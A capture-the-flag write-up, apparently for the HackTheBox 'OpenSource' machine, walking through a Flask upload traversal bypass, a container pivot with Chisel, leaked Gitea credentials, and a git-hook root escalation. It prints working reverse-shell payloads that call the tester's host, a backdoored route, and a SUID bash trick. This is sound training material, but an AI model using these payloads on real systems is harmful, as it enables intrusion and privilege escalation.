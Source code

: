 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
## ⚙️ Recon

**Open Ports**
```bash
nmap -p- --min-rate 10000 10.10.11.164
nmap -p 22,80 -sCV 10.10.11.164
```

- `22/tcp`: [OpenSSH 7.6p1](SSH)
- `80/tcp`: [HTTP](HTTP.md) – Werkzeug/2.1.2 Python/3.10.3
- `3000/tcp`: Filtered (accessible later from container)

**Website**
- Main page has a source code download link
- /upcloud: file uploader
- Werkzeug server implies Flask backend

**Source Review**
- `get_file_name()` strips `../` via recursive replacement
- Bug: can bypass directory traversal with `/` or `/..//`
- Hidden Git repo reveals a dev branch with dev credentials

---

## 🐚 Shell as root (inside container)

### Method 1: Flask Debug Console (Unintended)
1. Collect:
   - Username: `root`
   - App path: `/usr/local/lib/python3.10/site-packages/flask/app.py`
   - MAC: `/sys/class/net/eth0/address`
   - Boot ID: `/proc/sys/kernel/random/boot_id`
   - Container ID: `/proc/self/cgroup` → extract last part after 3rd `/`

2. Generate PIN:
   - Use [Werkzeug Debug PIN Generator (SHA1-based)](https://book.hacktricks.xyz/pentesting-web/deserialization/flask-pin-debug-code-execution)

3. Input PIN in browser debug console:
   ```python
   import subprocess; subprocess.call(["bash", "-c", "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"])
   ```

### Method 2: Upload Backdoored `views.py`
```python
@app.route('/0xdf')
def rev():
    import socket, os, pty
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.6",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("sh")
```

Upload it as `/..//app/views.py`, then visit `http://10.10.11.164/0xdf`.

---

## 🐚 Shell as dev01 (host)

### Identify Port 3000 Gitea
```bash
wget 172.17.0.1:3000 -O-
```

### Pivot Using Chisel
Host:
```bash
chisel server -p 8000 --reverse
```
Container:
```bash
./chisel client 10.10.14.6:8000 R:3000:172.17.0.1:3000
```

### Gitea Access
- URL: `http://localhost:3000`
- User: `dev01`
- Pass: `Soulless_Developer#2022`
- Repo: `home-backup` → contains SSH private key

### SSH into Host
```bash
chmod 600 opensource-dev01
ssh -i opensource-dev01 dev01@10.10.11.164
```

---

## 🧨 Privilege Escalation (host → root)

### Enumeration
```bash
id
sudo -l         # Requires dev01 password
```

### Find Cron Job with `pspy`
```bash
wget 10.10.14.6:8000/pspy64
chmod +x pspy64
./pspy64
```

### Abusing Git Hook
```bash
cd ~/.git/hooks/
echo -e '#!/bin/bash\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
chmod +x pre-commit
```

Wait for next cron to trigger. Then:
```bash
/tmp/0xdf -p
```

Root shell 🎯